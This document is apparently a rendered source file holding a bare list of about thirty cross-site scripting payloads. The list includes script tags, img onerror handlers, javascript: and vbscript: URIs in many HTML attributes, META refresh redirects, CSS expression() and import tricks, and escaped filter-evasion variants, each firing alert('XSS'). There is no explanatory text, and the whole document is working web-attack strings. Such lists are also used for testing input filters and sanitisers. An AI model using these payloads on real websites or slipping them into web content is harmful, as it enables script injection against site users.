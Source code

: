 &lt;![&gt;&lt;img src="]&gt;&lt;img src=x onerror=alert(XSS)//"&gt;

&lt;style&gt;&lt;img src="&lt;/style&gt;&lt;img src=x onerror=alert(XSS)//"&gt;

&lt;SCRIPT&gt;alert(/XSS/&#46;source)&lt;/SCRIPT&gt;

\\";alert('XSS');//

&lt;/TITLE&gt;&lt;SCRIPT&gt;alert(\"XSS\");&lt;/SCRIPT&gt;

&lt;INPUT TYPE=\"IMAGE\" SRC=\"javascript&#058;alert('XSS');\"&gt;

&lt;BODY BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;

&lt;IMG DYNSRC=\"javascript&#058;alert('XSS')\"&gt;

&lt;IMG LOWSRC=\"javascript&#058;alert('XSS')\"&gt;

&lt;BGSOUND SRC=\"javascript&#058;alert('XSS');\"&gt;

&lt;BR SIZE=\"&{alert('XSS')}\"&gt;

&lt;LINK REL=\"stylesheet\" HREF=\"javascript&#058;alert('XSS');\"&gt;

&lt;XSS STYLE=\"behavior&#58; url(xss&#46;htc);\"&gt;

&lt;STYLE&gt;li {list-style-image&#58; url(\"javascript&#058;alert('XSS')\");}&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS

&lt;IMG SRC='vbscript&#058;msgbox(\"XSS\")'&gt;

&lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=javascript&#058;alert('XSS');\"&gt;

&lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0; URL=http&#58;//;URL=javascript&#058;alert('XSS');\"

&lt;IFRAME SRC=\"javascript&#058;alert('XSS');\"&gt;&lt;/IFRAME&gt;

&lt;FRAMESET&gt;&lt;FRAME SRC=\"javascript&#058;alert('XSS');\"&gt;&lt;/FRAMESET&gt;

&lt;TABLE BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;

&lt;TABLE&gt;&lt;TD BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;

&lt;DIV STYLE=\"background-image&#58; url(javascript&#058;alert('XSS'))\"&gt;

&lt;DIV STYLE=\"width&#58; expression(alert('XSS'));\"&gt;

&lt;STYLE&gt;@im\port'\ja\vasc\ript&#58;alert(\"XSS\")';&lt;/STYLE&gt;

&lt;IMG STYLE=\"xss&#58;expr/*XSS*/ession(alert('XSS'))\"&gt;

&lt;XSS STYLE=\"xss&#58;expression(alert('XSS'))\"&gt;

xss&#58;ex&#x2F;*XSS*//*/*/pression(alert(\"XSS\"))'&gt;

&lt;STYLE TYPE=\"text/javascript\"&gt;alert('XSS');&lt;/STYLE&gt;

&lt;STYLE&gt;&#46;XSS{background-image&#58;url(\"javascript&#058;alert('XSS')\");}&lt;/STYLE&gt;&lt;A CLASS=XSS&gt;&lt;/A&gt;

&lt;STYLE type=\"text/css\"&gt;BODY{background&#58;url(\"javascript&#058;alert('XSS')\")}&lt;/STYLE&gt;

&lt;SCRIPT&gt;alert('XSS');&lt;/SCRIPT&gt;
